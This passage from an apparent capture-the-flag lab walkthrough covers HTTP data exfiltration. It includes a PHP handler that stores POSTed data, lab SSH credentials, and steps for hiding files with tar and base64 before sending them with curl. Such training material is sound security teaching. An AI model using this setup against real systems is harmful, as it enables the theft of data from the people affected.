 1. An attacker sets up a web server with a data handler. In our case, it will be `web.thm.com` and the `contact.php` page as a data handler.
2. A C2 agent or an attacker sends the data. In our case, we will send data using the `curl` command.
3. The webserver receives the data and stores it. In our case, the `contact.php` receives the POST request and stores it into `/tmp`.
4. The attacker logs into the webserver to have a copy of the received data.

Let's follow and apply what we discussed in the previous steps. Remember, since we are using the HTTP protocol, the data will be sent in cleartext. However, we will be using other techniques (tar and base64) to change the data's string format so that it wouldn't be in a human-readable format!

First, we prepared a webserver with a data handler for this task. The following code snapshot is of PHP code to handle POST requests via a `file` parameter and stores the received data in the `/tmp` directory as `http.bs64` file name.

```
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Now from the **Jump** machine, connect to the `victim1.thm.com` machine via SSH to exfiltrate the required data over the HTTP protocol. Use the following SSH credentials: `thm:tryhackme`.

![task6-terminal2](./images/task6-terminal2.png)

You can also connect to it from AttackBox using port `2022` as follow,

![task6-terminal3](./images/task6-terminal3.png)

The goal is to transfer the folder's content, stored in `/home/thm/task6`, to another machine over the HTTP protocol.

![task6-terminal4](./images/task6-terminal4.png)
